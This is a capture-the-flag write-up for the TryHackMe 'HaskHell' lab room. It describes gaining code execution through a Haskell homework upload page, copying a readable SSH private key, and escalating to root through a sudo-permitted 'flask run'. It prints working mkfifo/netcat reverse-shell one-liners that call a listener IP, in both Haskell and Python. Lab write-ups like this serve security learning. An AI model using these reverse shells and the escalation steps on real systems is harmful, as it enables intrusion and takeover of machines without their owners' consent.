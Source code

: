 # HaskHell

https://tryhackme.com/room/haskhell

A simple room, with a few new techs. Fun since I write in F#, a language in the same vein as Haskell, sometimes.

1. A port scan revealed 22 and 5001. On 5001 was a website asking users to submit their haskell assignments.
2. The link to send haskell files on the homework page didn't work, but a dirb on the ip revealed /submit which did
3. Testing with the following file proved I had RCE (code is from rosetta code [here](https://rosettacode.org/wiki/Execute_a_system_command#Haskell)):

```haskell
import System.Cmd
 
main = system "ls"
```

4. The following connected a reverse shell (as the user 'flask'):

```haskell
import System.Cmd
 
main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.5.4 4444 >/tmp/f"
```

5. In the `/home/prof` directory was a `.ssh` folder with a readable `id_rsa`. I extracted this to my host machine in order to ssh in as prof.
6. Via `sudo -l`, prof had  `(root) NOPASSWD: /usr/bin/flask run`. After a bit of trial and error around how this command worked, I got a root reverse shell via:

    a. creating a file called shell.py with the following contents:

    ```python
    import os
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.112.79 4444 >/tmp/f")
    ```

    b. calling `export FLASK_APP=shell.py`

    c. running `sudo /usr/bin/flask run`

Easy, but interesting!

**BONUS:** for step six, rather than catching a root reverse shell, changing shell.py to contain `import pty; pty.spawn('/bin/bash')` works too, spawning an instant root shell.
